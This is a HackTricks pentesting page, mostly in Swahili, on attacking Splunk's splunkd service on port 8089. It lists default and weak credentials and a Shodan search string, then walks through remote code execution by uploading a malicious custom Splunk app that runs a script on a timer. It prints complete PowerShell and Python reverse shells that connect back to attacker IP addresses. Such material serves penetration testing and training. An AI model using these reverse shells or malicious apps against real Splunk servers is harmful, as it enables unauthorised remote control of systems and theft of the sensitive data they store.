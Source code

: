 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

* Zana ya uchambuzi wa log inayotumika kwa ukusanyaji wa data, uchambuzi, na uonyeshaji
* Inatumika sana katika ufuatiliaji wa usalama na uchambuzi wa biashara
* Bandari za default:
* Web server: 8000
* Huduma ya Splunkd: 8089

### Vulnerability Vectors:

1. Ukatili wa Toleo la Bure

* Toleo la majaribio linabadilishwa kiotomatiki kuwa toleo la bure baada ya siku 60
* Toleo la bure halina uthibitisho
* Hatari ya usalama ikiwa halitashughulikiwa
* Wasimamizi wanaweza kupuuzilia mbali athari za usalama

2. Udhaifu wa Akreditivu

* Toleo za zamani: Akreditivu za default `admin:changeme`
* Toleo za kisasa: Akreditivu zinawekwa wakati wa usakinishaji
* Uwezekano wa matumizi ya nywila dhaifu (mfano, `admin`, `Welcome`, `Password123`)

3. Fursa za Utekelezaji wa Msimbo wa Kijijini

* Njia nyingi za utekelezaji wa msimbo:
* Programu za Django upande wa seva
* Ncha za REST
* Ingizo la skripti
* Skripti za arifa
* Msaada wa majukwaa tofauti (Windows/Linux)
* Ingizo la skripti linaweza kukimbia:
* Skripti za Bash
* Skripti za PowerShell
* Skripti za Batch

Uwezekano wa Ukatili Muhimu:

* Hifadhi ya data nyeti
* Ukosefu wa uthibitisho katika toleo la bure
* Njia nyingi za uwezekano wa utekelezaji wa msimbo wa kijijini
* Uwezekano wa kutumia ingizo la skripti kwa ajili ya kuathiri mfumo

### Shodan

* `Splunk build`

## RCE

### Unda Programu Maalum

Splunk inatoa njia ya kisasa ya utekelezaji wa msimbo wa kijijini kupitia usambazaji wa programu maalum, ikitumia uwezo wake wa skripti za majukwaa tofauti. Mbinu ya msingi ya ukatili inahusisha kuunda programu mbaya inayoweza kutekeleza shell za kinyume kwenye mifumo ya Windows na Linux.

Programu maalum inaweza kukimbia **Python, Batch, Bash, au PowerShell scripts**. Zaidi ya hayo, **Splunk inakuja na Python iliyosakinishwa**, hivyo hata katika mifumo ya **Windows** utaweza kukimbia msimbo wa python.

Unaweza kutumia [**hii**](https://github.com/0xjpuff/reverse_shell_splunk) mfano na **`bin`** inayojumuisha mfano wa [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) na [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Au unaweza kuunda yako mwenyewe.

Mchakato wa ukatili unafuata mbinu thabiti katika majukwaa:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Faili muhimu la usanidi `inputs.conf` linawezesha skripti kwa:

* Kuweka `disabled = 0`
* Kuunda kipindi cha utekelezaji cha sekunde 10
* Kuelezea aina ya chanzo cha skripti

Kuweka ni rahisi:

1. Tengeneza kifurushi cha programu chenye madhara
2. Weka msikilizaji (Netcat/socat) kwenye mashine ya kushambulia
3. Pakia programu kupitia kiolesura cha Splunk
4. Washa utekelezaji wa skripti kiotomatiki baada ya kupakia

Mfano wa Windows PowerShell reverse shell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Mfano wa shell ya nyuma ya Python ya Linux:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

Katika ukurasa ufuatao unaweza kupata maelezo jinsi huduma hii inaweza kutumika vibaya kuongeza mamlaka na kupata kudumu:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
